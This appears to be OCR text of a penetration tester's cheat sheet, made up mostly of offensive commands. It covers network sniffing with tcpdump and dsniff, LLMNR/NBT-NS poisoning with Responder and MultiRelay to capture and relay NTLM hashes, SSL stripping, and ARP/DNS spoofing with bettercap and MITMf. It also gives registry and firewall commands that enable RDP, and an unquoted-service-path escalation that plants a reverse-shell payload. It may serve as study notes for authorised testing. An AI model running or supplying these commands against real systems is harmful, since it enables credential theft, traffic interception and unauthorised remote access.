 				Passive - filesnarf, mailsnarf, msgsnarf, urlsnarf, webspy
				Active - arpspoof, dnsspoof, macof
				MITM - sshmitm, webmitm

		TCPdump(-or- windump for windows):

			tcpdump -i eth0(wlan0,tap0...)
			needs creds decoding from base64 - echo <base64> | base64 -d

			tcpdump -D - shows available interfaces for sniffing
			tcpdump -i eth0(wlan0,tap0...) - sniff traffic on interface
			tcpdump -v - verbose mode
			tcpdump -q - quiet option
			tcpdump -i eth0 host www.website.com - show only traffic between host and website
			tcpdump -i eth0 src <IP> dst <IP> - show only traffic between source IP and destination IP
			tcpdump -F - import to file
			tcpdump -c <num of packets> - stop capturing after a certain amount of packets captured


	LLMNR/NBT-NS Poisoning:

		1. HOST A requests an SMB share, but has a typo in the SMB address he's trying to access
		2. since it can't be resolved by the DNS, HOST A falls back to LLMNR/NBT-NS broadcast msg asking the LAN for the ip address of the typo share
		3. HOST B responds to this message claiming to be the typo share system
		4. HOST A complies and sends HOST B their username and NTLMv1/v2 hash

		Responder:

			SMB-Signing check - runfinger.py -i <target>

			modify responder.conf - SMB=OFF, HTTP=OFF

			responder -I eth0(wlan0,tap0...) --lm
			+
			multirelay.py -t <target> -u ALL
			

	setup port redirection -> iptables -t nat -A PREROUTING -p tcp  --destination-port 80 -j REDIRECT --to-ports 8080

	sslstrip -a -f -l 8080 -w ssl_usr

	bettercap -G <TARGET_IP> -T <VICTIM_IP> --proxy-https

	python mitmf.py -i eth0 --spoof -arp --dns --hsts --gateway <GATEWAY_IP> --targets <TARGET_IP>


	see which port is enabled - netstat -an |findstr :<port>
	see firewall rules - netsh firewall show config
	enable RDP - reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
	open RDP on FW - netsh firewall add portopening TCP 3389 "Remote Desktop"


	Unquoted Paths: 
		
		wmic service get name,pathname,displayname,startmode | findstr /i "auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """

		if found, go through directories and list permissions with icacls on each dir.
		Insert payload(and set to windows/shell_reverse_tcp) and BAM.

